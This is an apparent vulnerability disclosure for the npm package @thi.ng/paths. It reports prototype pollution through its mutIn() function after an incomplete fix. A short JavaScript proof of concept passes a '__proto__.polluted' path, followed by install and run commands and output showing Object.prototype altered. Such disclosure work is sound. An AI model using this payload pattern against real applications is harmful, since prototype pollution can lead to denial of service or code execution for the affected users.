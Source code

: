 # Description

`@thi.ng/paths` is vulnerable to `Prototype Pollution`. The vulnerability is due to an incomplete fix. `mutIn()` function does not have fix implemented.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const paths = require('@thi.ng/paths')

console.log(`Before: ${{}.polluted}`)
paths.mutIn({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i @thi.ng/paths # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
